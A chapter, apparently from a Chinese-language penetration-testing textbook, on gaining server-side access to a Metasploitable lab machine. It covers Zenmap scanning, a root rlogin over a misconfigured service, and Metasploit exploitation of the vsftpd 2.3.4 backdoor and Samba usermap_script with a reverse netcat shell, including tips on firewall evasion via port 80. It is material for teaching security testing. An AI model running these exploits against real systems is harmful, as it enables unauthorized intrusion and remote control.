

# 第十章：访问计算机设备

现在我们正朝着本书的下一部分前进，我们将涵盖与访问计算机设备相关的主题。在这部分中，我们将探讨获取受害者机器访问权限的方法。我们将使用各种技术来黑客受害者的系统。本章将涵盖攻击受害者系统的第一种方法：服务器端攻击。我们将使用 Metasploit 设备执行服务器端攻击，还将利用后门进行利用。

本章包括以下几节：

+   获取访问权限简介

+   服务器端攻击

+   服务器端基础知识

+   服务器端攻击，Metasploit 基础知识

+   代码执行 Metasploit

# 获取访问权限简介

现在你已经有足够的信息可以尝试访问其他系统、计算机、服务器、网络服务器等。在本节中，我们将讨论如何访问计算机设备。什么是计算机设备？你看到的任何电子设备都是计算机。手机、电视、笔记本电脑、网络服务器、网站、网络、路由器；所有这些东西都是计算机。每一个都有一个操作系统，并且在这些操作系统上安装了程序。在大多数情况下，这些计算机是由用户使用的。在这里，我们将讨论如何访问计算机。在这个例子中，我们将使用一台计算机。我们将有一个 Windows 设备目标，和一个 Linux 设备黑客。但概念始终是相同的；获取对计算机设备的访问权限始终是相同的。如果我们针对手机、平板电脑或网络服务器，我们可以应用相同的概念，但我们将把它们都视为普通计算机。这一点非常重要：我们看到的每个设备都是计算机，它们的工作方式就像我们的个人计算机一样。我们可以在我们的计算机上设置一个网络服务器，我们可以让它看起来和行为像一个网站，甚至让它看起来像一台电视，或者，无论我们想要的任何东西。简而言之，电视和所有这些东西只是带有不太复杂硬件的简单计算机。

我们将讨论从两个主要方面攻击这些设备：服务器端和客户端。

# 服务器端

服务器端攻击不需要任何用户交互。我们将拥有一台计算机，并且看看如何在不需要用户做任何事情的情况下获得对该计算机的访问权限。这主要适用于很少被人使用的网络服务器、应用程序和设备。人们基本上只是配置它们，然后它们就会自动运行。我们只有一个 IP 地址，我们将看看如何根据该 IP 测试安全性并获得对该计算机的访问权限。我们主要的入侵方式将是目标运行的操作系统以及该系统上安装的应用程序。各种类型的服务器端攻击包括 SQL 注入攻击、缓冲区溢出和拒绝服务攻击。

在本章中，我们将重点关注服务器端攻击。我们将详细了解服务器端攻击是什么以及如何实施。

# 客户端

我们将尝试的第二种方法是客户端攻击。这种方法需要客户端，或者说使用该计算机的人，做出一些操作。这可能涉及多种事情，比如安装更新、打开图片或启动 Trojan（木马）。我们将学习如何创建木马、如何创建后门、如何利用社交工程学让目标人物做出某个动作，这样当他们执行该动作时，我们将能够访问他们的计算机。信息收集在这种情况下非常关键，因为我们实际上需要了解我们攻击的目标人物。各种类型的客户端攻击包括内容欺骗、跨站脚本攻击（XSS）和会话固定攻击。

# 后期利用

一旦我们获得了对系统的访问权限，我们将看到获得访问权限后我们可以做些什么，不论是通过何种方式获得的访问权限。这可能涉及服务器端漏洞、客户端漏洞，甚至是物理访问，即当受害者离开办公桌时你可以进入。我们将探讨一旦获取目标访问权限后，如何进一步利用目标、提升我们的权限，或者攻击同一地点的其他计算机。

# 服务器端攻击

我们首先要讨论的是服务器端攻击。这些攻击不需要用户互动。我们可以在 web 服务器上使用这些攻击，也可以在普通的个人计算机上使用它们。之所以选择在我的 Metasploitable（它运行 Unix 系统，更像是服务器而非普通个人计算机）上进行攻击，是因为如果我们的目标使用的是个人计算机，并且他们不在与我们相同的网络中，即使我们设法获得了他们的 IP 地址，该地址也将位于路由器之后。他们很可能通过路由器连接，因此即使我们使用该 IP 地址来尝试确定其运行的操作系统和安装的应用程序，我们也无法获得多少有用的信息，因为我们只会得到关于路由器的信息，而不是目标人物的信息。目标人物将隐藏在路由器后面。当我们针对 web 服务器或一般服务器时，该服务器会有一个 IP 地址，我们可以直接通过互联网访问该 IP 地址。如果目标与我们在同一网络中，且目标有真实的 IP 地址，那么这个攻击方法就能奏效。即使目标是个人计算机，如果我们能 ping 通该设备，我们也可以执行所有的攻击以及我们将要学习的信息收集方法。

我们将针对我的 Metasploitable 机器进行攻击。在开始之前，我们先检查一下网络设置。为了验证它，我们需要确保它设置为 NAT，并且与 Kali 机器处于同一网络中。Kali 机器将作为我们的攻击机。再次强调，我们必须检查网络是否设置为 NAT 网络，并且它们在同一子网内。这一点非常重要。如果我们执行`ifconfig`命令，我们将能够看到我们的 IP 地址，如下图所示：


如果我们去到我的 Kali 机器，我们应该能够 ping 通它。正如下面的截图所示，当我们 ping 通 IP 时，我们从机器上收到了响应，这说明我们与该机器连接成功，并且可以从它那里获取响应。因此，我们可以尝试测试其安全性，如下图所示：


同样，我们可以使用这些攻击和方法针对任何我们能够 ping 通的计算机。不论是个人电脑还是任何类型的服务器，只要我们能够 ping 通该位置或该人，就可以发起我们接下来要讨论的攻击和方法。

服务器端攻击适用于网站、Web 服务器、用户和普通计算机，只要我们能够 ping 通它们。为了传达这个概念，我们将查看 Metasploitable 机器，它只是一个普通的虚拟机，我们可以在这里使用它做任何我们想做的事情。我们可以使用`-ls`命令列出它，甚至可以安装图形界面。这样，我们就能像使用我的 Kali 机器一样使用它。但与此同时，它也有一个 Web 服务器。如果我们尝试访问该服务器，我们会看到它实际上有一个 Web 服务器，并且有我们可以浏览和阅读的网站。我们将在后面的章节中查看这些网站，了解如何进行渗透测试，如下图所示：


一切都是计算机，如果我们能够 ping 通 IP 地址，就可以使用服务器端攻击。它们通常针对服务器有效，因为服务器总是有真实的 IP。如果某人与我们处在同一网络中，那么我们也可以通过 ping 通他们来执行这些攻击。

# 服务器端攻击基础

服务器端攻击的第一步是信息收集。信息收集非常重要，因为它能告诉我们目标的操作系统、已安装的程序、运行中的服务以及与这些服务相关的端口。从这些已安装的服务中，我们可以尝试进入系统。我们可以通过尝试默认密码来实现这一点。我们在网络渗透测试部分看到，iPad 安装了 SSH 服务，如果用户仍然使用默认密码 alpine，就能让我们完全访问该计算机。我们可以对任何其他服务执行此操作，在本节中我们会进一步讲解。

很多人会安装服务并配置错误，所以我们也会有另一个例子。 有时，这些服务的设计目的是为了让某人远程访问那台计算机，但显然需要一些安全措施。人们常常配置错误这些服务，我们可以利用这些配置错误来获取对这些计算机的访问权限。另一个问题是，这些服务中的一些可能甚至有后门，我们也将看到一个例子。许多服务会有漏洞，比如远程缓冲区溢出或代码执行漏洞，这将使我们能够完全访问计算机。

做这件事的最简单方法就是我们之前看到的：Zenmap。我们使用 Zenmap 和 IP 地址。我们得到所有这些服务的列表，然后谷歌每一个服务，看看它们是否包含任何漏洞。我们在之前的章节中已经看到过如何使用 Zenmap，但我们只是想传达一个概念，那就是任何东西都是计算机。我们之前看到过 Metasploitable 设备实际上是一个网站，它运行着一个 web 服务器；网站和这个没有区别。如果我们想要得到一个网站的 IP 地址，我们只需要`ping`它。例如，如果我们的目标是 Facebook，我们就需要`ping facebook.com`，然后就能得到它们的 IP 地址。我们将得到 Facebook 的 IP 地址，然后可以对其运行 Zenmap，并获得 Facebook 上所有正在运行的服务列表。当然，我们不会这么做，因为我们没有权限这么做。我们要做的是对这个 Metasploitable 设备运行 Zenmap，它基本上是一个计算机设备，这就是我们感兴趣的测试目标。

我们将以与之前相同的方式运行 Zenmap。我们将进入“活动”页面，寻找 Zenmap 并打开它。接下来，我们将输入目标的 IP 地址，也就是 Metasploitable 设备的 IP 地址，在我们的示例中是`10.0.2.4`。记住，在第四章中，*网络渗透测试*我们使用的是基础 IP 地址，并在其上加上 24，以覆盖网络中周围的所有 IP 地址。在这种情况下，你可能正在测试一个远程 IP。例如，对于 Facebook，你只需输入 Facebook 的目标 IP 地址并进行测试。但由于我们没有权限这么做，所以我们不会这么做。不过，我们有权限测试我们自己的设备，这个设备与我们在同一个网络上，因此我们将输入这个 IP 地址。我们实际上可以输入任何我们想要的 IP 地址并进行测试。我们将使用“扫描”，这将给我们一个已安装应用程序的列表，如下图所示：


一旦扫描完成，我们将会有很多开放的端口和许多服务。建议我们进入 Nmap 输出标签页，逐一检查端口，查看服务类型，并谷歌搜索服务的名称。例如，在下图中我们看到 `21` 端口，它是一个 FTP 端口。FTP 是一个用于让人们上传或下载文件的服务。FTP 服务通常需要用户名和密码，但我们可以看到这个服务配置错误，允许匿名 FTP 登录。与我们之前在网络渗透测试中使用的 SSH 不同，我们可以使用默认密码。通过这个，我们将能够无需密码直接登录，请注意下一个截图：


我们需要做的就是下载一个 FTP 客户端，比如 FileZilla，然后我们就能使用该 IP 地址在 `21` 端口进行连接。我们不打算深入讨论具体的操作方法，因为非常简单。我们只需要下载应用程序并进行连接。我们还可以谷歌搜索一个 FTP 服务器，在我们的例子中是 vsftpd 2.3.4，并查看它是否存在问题，是否有任何配置错误，或者是否有已知的代码执行漏洞。一旦我们搜索它，我们会发现这个特定版本的应用程序，vsftpd 2.3.4，安装时就带有一个后门。它在发布时就附带了一个后门。我们需要逐个谷歌搜索服务，检查它们是否有配置错误，是否有已知漏洞或已知的漏洞。

现在我们来看看 `512` 端口。假设我们逐一检查了这些端口，未发现任何问题，最终达到了 `512` 端口，如下图所示：


我们将通过谷歌搜索在此端口上运行的服务，因为我们不知道它是什么。经过一些搜索后，我们知道 netkit-rsh 是一个远程执行程序。如果我们能通过它登录，我们就能在目标计算机上执行命令，它使用的是 `rsh rlogin`，这是一个随 Linux 系统附带的程序。它允许我们像 SSH 一样，在目标计算机上执行远程命令。现在让我们回去，看看如何连接到 `rsh rlogin` 服务。让我们看看 `netkit-rsh` 包以及它包含的内容。正如我们所见，目标计算机的系统运行的是 Ubuntu，我们可以看到它使用 `rsh-client` 服务进行连接。我们需要安装一个包才能连接到该服务。它是一个远程 shell 连接的客户端程序。现在回去，我们来安装 `rsh-client`。就像之前安装其他东西一样，我们运行 `apt-get`，然后执行 `install`。我们输入要安装的程序名称，所以就是 `rsh-client`。安装 `rsh-client` 的命令如下：

```
 apt-get install rsh-client 
```

`apt-get` 将为我们安装并配置它，一旦安装完成，我们将使用 `rlogin` 登录，因为第一页告诉我们它使用 `rlogin` 程序来简化登录过程。我们将执行 `rlogin`，再次，如果我们不知道如何使用这个应用程序，我们可以使用 `--help` 查看如何使用它，如下截图所示：


这里重要的是用户名（`-l`）和目标 IP `host`。现在我们将执行 `rlogin`。我们将用户名设置为 `root`，这是系统上权限最高的用户，并将目标 IP 设置为 `10.0.2.4`。以下是命令：

```
rlogin -l root 10.0.2.4 
```

现在我们已经登录到 Metasploitable 机器。如果我们执行 `id` 命令来获取 ID，我们可以看到我们是 `root`。如果我们执行 `uname -a`，它将列出主机名和机器上运行的内核。我们可以看到我们以 `root` 访问权限登录到 Metasploitable 机器，如下所示：


这是通过利用已安装服务的错误配置来获取目标计算机访问权限的基本手动方式。`rlogin` 服务未正确配置。我们所要做的就是搜索与该端口相关的内容，然后我们成功登录并完全访问了目标计算机。

再次，关键点在于我们进行 Zenmap 扫描，然后查看我们找到的每个端口。我们搜索该端口并寻找错误配置和默认密码。如果目标服务带有后门或代码执行，也许它只是没有正确编程或存在可以用来访问该计算机的缺陷。

# 服务器端攻击 – Metasploit 基础知识

在本节中，我们将看一个非常简单的示例：一个后门。一些程序或服务在其中嵌入了后门。我们将利用这一点，选择这个非常简单的漏洞利用，因为我们将看一个名为 Metasploit 的框架。我们将经常使用这个框架。我们将从简单的开始，然后深入研究框架。首先，让我们看看如何找到那个漏洞利用。再次使用我们一直在使用的相同方法，我们有一个 Nmap 扫描；正如我们所知，我们将逐个端口进行搜索，并在 Google 上搜索漏洞利用。我们将在 Google 上搜索服务名称 `vsftpd 2.3.4 exploit`。这是服务名称后跟着 `exploit`。我们可以看到第一个结果来自一个名为 Rapid7 的网站。Rapid7 是制作 Metasploit 框架的公司，所以我们选择了这个特定的漏洞利用。我们将利用 Metasploit 来利用这个服务或这个问题。Rapid7 将告诉我们 FTP 的 2.3.4 版本具有后门命令执行，因此如果目标计算机安装了这个程序，我们基本上可以在目标计算机上执行命令。而从 Nmap 中，我们知道这个程序已安装，这意味着我们可以在目标机器上执行命令。

正如我们所说的，Metasploit 是由 Rapid7 制作的。它是一个包含大量漏洞利用的庞大框架。它允许您利用漏洞或创建自己的漏洞利用。如果您是专家并且知道如何发现和制作漏洞利用，那么 Metasploit 将帮助您做到这一点。目前，我们正在利用一个非常简单的现有漏洞。Metasploit 上的命令非常简单。起初可能会有点复杂，但一旦我们习惯了，它们就非常容易使用，而且其中许多是通用命令。在这里，我们将向您展示基本的通用命令。

还有其他命令，随着时间的推移我们会熟悉：

+   `msfconsole`: 这只是启动 Metasploit 程序。

+   `help`: 通过这个命令，我们可以获取关于命令的信息以及如何使用它们的描述。

+   `show`: 这会显示可用的漏洞利用。我们可以展示可用的辅助工具和可用的有效载荷。我们将在未来讨论这些各自的含义。

+   `use`: 这个命令用于使用我们展示的某些内容。例如，我们展示了漏洞利用，然后选择我们想要使用的某个漏洞利用。然后我们使用 `use` 命令，输入漏洞利用的名称来运行它。

+   `set`: `set` 命令用于为漏洞利用设置特定选项。例如，如果我们想设置目标的 IP 地址，我们设置 IP，然后输入我们想要设置的 IP 值。

+   `exploit`: 最后，在我们完成配置后，我们可以输入`exploit`来执行该漏洞利用。

我们在 Nmap 上查询了服务名称，搜索结果显示该服务存在后门命令执行漏洞。由于这个漏洞在 Rapid7 上被列出，且可以通过 Metasploit 利用，所以我们将使用 `exploit.unix/ftp/vsftpd_234_backdoor` 模块来利用这个漏洞。

现在我们将进入控制台，使用 `msfconsole` 命令启动 Metasploit，然后运行 `use` 并输入漏洞名称，即 `exploit.unix/ftp/vsftpd_234_backdoor`：

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

正如我们在以下截图中看到的，名称已经更改为 `exploit`，并且后面是我们正在使用的漏洞名称：


然后我们将使用 `show` 命令来查看我们需要设置的选项。正如我们所知，`show` 是一个通用命令，可以在许多情况下使用。在这种情况下，我们运行 `show options` 以查看该特定漏洞可以更改的所有选项。正如以下截图所示，第二个选项是服务运行的端口。它已经设置为 `21` 端口：


如果我们回到 Nmap，我们会看到目标 FTP 客户端或服务器运行在 `21` 端口上。我们不需要更改任何内容。我们需要更改的是 `RHOST`。`RHOST` 是目标 IP 地址，我们将设置 `RHOST` 为我的目标 Metasploitable 机器的 IP 地址。我们使用 `set`，在 `set` 后面输入选项名称。如果我们想更改端口，则设置 `RPORT`，但我们将 `RHOST` 更改为 `10.0.2.4`。正如本主题开始时所解释的，我们将使用 `set` 选项或 `set` 命令。命令如下：

```
set RHOST 10.0.2.4
```

按 *Enter* 键，正如我们在下一个截图中所看到的，`RHOST` 被设置为 `10.0.2.4`：


现在我们将再次运行 `show options`，确保一切配置正确。正如以下截图所示，`RHOST` 已更改为 `10.0.2.4`：


一切就绪。为了执行 `exploit`，我们只需输入 `exploit`。我们可以在以下截图中看到，`exploit` 成功执行，现在我们可以访问目标计算机。如果执行 `id`，我们会看到 `UID` 是 `root`：


现在我们基本上是在运行 Linux 命令，如果执行 `uname -a`，我们会看到这是我的 Metasploitable 机器，如果执行 `ls`，它会列出文件。如果执行 `pwd`，它会显示当前路径，我们可以使用 Linux 命令在目标机器上执行任何操作：


现在这是一个非常简单的 Metasploit 使用方法。未来，我们将使用它进行更高级的操作。

# Metasploit 远程代码执行

现在我们将更深入地了解 Metasploit，看看如何使用它来利用某个服务中存在的漏洞。这是一个代码执行漏洞，能够让我们完全访问目标计算机。回到我们在 Nmap 中的结果，我们将继续做我们已经做过一段时间的事情：复制服务名称并查看它是否有漏洞。目前，我们查看的是端口`139`，它运行的是 Samba 服务器版本 3.X。我们将像在上一节中那样去 Google 搜索`Samba 3.X exploit`。你会看到有许多结果。我们感兴趣的是来自 Rapid7 的那个，因为正如前面提到的，这些人是 Metasploit 的开发者，所以我们在这里看到的漏洞可以通过 Metasploit 使用。我们将使用的漏洞是 username map script，这是一个命令执行漏洞。该漏洞的名称是`exploit/multi/samba/usermap_script`，这与我们之前在 FTP 服务中使用的恶意后门是一样的，只是我们现在使用的是不同的名称，如下图所示：



我们将进入 Metasploit 并运行`msfconsole`。我们将像在上一节中那样编写命令。我们输入`use`，然后输入我们想要使用的漏洞名称。接下来要做的是`show options`。命令如下：

```
use exploit/multi/samba/usermap_script
show options
```

下面是前面命令的输出：


使用这些漏洞利用方法总是差不多的。唯一的区别是我们可以为每个漏洞设置的`options`。我们总是运行`use`，然后输入漏洞名称，再执行`show options`来查看我们可以更改的设置，以便与此漏洞配合使用。在未来，我们可能会得到不同于现在的漏洞。每次我们想运行一个漏洞时，都会执行`use <exploit name>`，然后执行`show options`来查看我们需要配置的选项。但使用漏洞、设置选项和运行它们的过程始终是相同的。

我们将学习一些例子，这些例子应该涵盖我们未来想要做的几乎所有事情。再次提醒，我们需要设置`RHOST`，即目标计算机的 IP 地址，我们将以之前相同的方式进行设置。因为设置`options`总是相同的，所以我们将执行`set RHOST`，然后输入目标计算机的 IP 地址，即`10.0.2.4`。就像我们之前做的那样，我们使用`set`命令来设置选项，即`RHOST`。接下来我们将运行`show options`，正如下面的截图所示，`RHOST`将根据指定的 IP 正确设置：


这一部分与前一部分有所不同。在前一部分中，我们使用的是已经在目标计算机上安装的后门，因此我们只需连接到后门，就可以在目标计算机上运行任何 Linux 命令。而在这一部分中，目标计算机没有后门，它有一个存在缓冲区溢出或代码执行漏洞的普通程序。这个程序没有任何代码允许我们运行 Linux 命令。它有一个特定的漏洞，允许我们运行一小段代码。这些小段代码被称为**载荷**。我们需要做的是创建一个载荷，然后利用我们发现的漏洞在目标计算机上运行它。这段代码将允许我们做不同的事情。载荷就是让我们做对我们有用的事情的关键。

现在，载荷可能会让我们运行 Linux 命令，未来我们还会看到其他类型的载荷。要查看可以在此特定漏洞利用中使用的载荷，您只需运行 `show payloads` 命令。我们可以使用不同类型的载荷，如下图所示：


载荷是小段代码，一旦漏洞被利用，它们就会在目标计算机上执行。当我们利用这个漏洞时，我们选择的代码将被执行，具体执行什么内容取决于我们选择的载荷类型。现在，我们可以看到所有载荷都是命令行型的，因此它们让我们在目标计算机上运行命令，就像运行 Linux 命令一样。并且它们都只在 Unix 系统上运行，因为我们的目标是 Linux。

载荷主要有两种类型：

+   **绑定载荷**：它们的作用是打开目标计算机的一个端口，然后我们可以连接到该端口。

+   **反向载荷**：它们的作用与绑定载荷相反。它们在我的机器上打开一个端口，然后目标计算机从它连接到我们的机器。这非常有用，因为它使我们能够绕过防火墙。防火墙会过滤所有连接到目标计算机的请求，但如果目标计算机连接到我们，而我们没有防火墙，那么我们就能绕过防火墙。

我们将使用 `cmd/unix/reverse_netcat` 载荷。这些载荷的最后部分是将用于连接的编程语言或工具。例如，我们可以在前面的截图中看到，有些载荷是用 Perl、Ruby、Python、PHP 编写的，或者使用 Netcat 工具来建立计算机间的连接。我们将使用的载荷是 `cmd/unix/reverse_netcat`，我们将像使用漏洞利用一样使用它。我们只需要使用 `set` 命令，命令如下：

```
set PAYLOAD cmd/unix/reverse_netcat
```

和设置 `option` 的方式一样，我们也要设置负载。我们执行 `show options` 查看是否有其他需要设置的 `options`，因为我们选择了一个负载，所以会有更多的 `options`。正如你在下面的截图中看到的，那里有一个叫做 `LHOST` 的选项，它是监听地址，就是我们自己的地址：


我们将使用 `ifconfig` 获取我们自己的 IP 地址，作为本示例，我们的地址是 `10.2.0.15`，如下所示：


我们将以与之前设置 `RHOST` 相同的方式设置 `LHOST`。我们将 `LHOST` 设置为 `10.2.0.15`。之前，我们使用了 `set RHOST` 来设置这个选项。现在我们正在设置 `LHOST` 来设置这个特定选项。`set` 命令非常简单：`set`，然后是 `<option name>`，接着是我们要设置的 `<value>`：

```
set LHOST 10.0.2.15
```

然后我们将执行 `show options`，一切看起来都很好，正如下图所示：


我们正在使用这个漏洞。`RHOST` 被设置为 `10.0.2.4`，这是可以的，然后 `LHOST` 被设置为 `10.0.2.15`，这是完美的，然后我们还可以设置当前计算机上要监听的端口。如果你愿意的话，实际上可以将其设置为 `80`。这是浏览器使用的端口。如果我们将 `LPORT` 设置为 `80`，目标计算机将尝试使用端口 `80` 连接到我们，这个端口在防火墙中通常不会被过滤，因为这是浏览器或 web 服务器使用的端口。每当我们访问一个网站时，实际上是在访问该网站的 `80` 端口。如果我们在自己的机器上打开端口 `80`，并且目标通过端口 `80` 连接到我们，那么防火墙会认为目标仅仅是在浏览互联网。我们现在不会这么做，因为我们在端口 `80` 上运行着一个 Web 服务器，这会发生冲突。我们只是将 `LPORT` 设置为 `5555`，与设置 `LHOST` 的方式相同。然后我们会再次执行 `show options`，正如我们在下面的截图中看到的，端口已经更改为 `5555`：


现在我们将运行 `exploit` 命令来执行漏洞。如下面的截图所示，它告诉我们 `session 1` 已经打开，并且连接在 `10.0.2.15:5555` 设备与 `10.0.2.4:48184` 设备之间，这就是我们的设备和目标设备：


我们将执行 `pwd`，然后执行 `id`。我们会看到我们是 `root` 用户。如果我们执行 `uname -a`，我们会看到我们处于 Metasploitable 机器上，如果执行 `ls`，我们将能够列出文件等。我们可以像在前一部分中那样使用任何 Linux 命令，如下所示：


# 总结

在本章中，我们探讨了如何获得对机器的访问权限的概念，并概述了获取访问权限的几种方式。我们还了解了服务器端攻击的基础知识，即获取受害者机器访问权限的技术。我们看到如何使用默认密码或配置错误的服务来获取目标计算机的访问权限。接着，我们看到如何利用一个带有默认密码、未正确配置的服务，或者带有后门的服务来获取目标计算机的完全访问权限。我们还学习了如何使用 Metasploit 连接到安装在 FTP 服务上的后门。下一章将介绍如何使用 MSFC 和 Nexpose 工具扫描和分析漏洞。
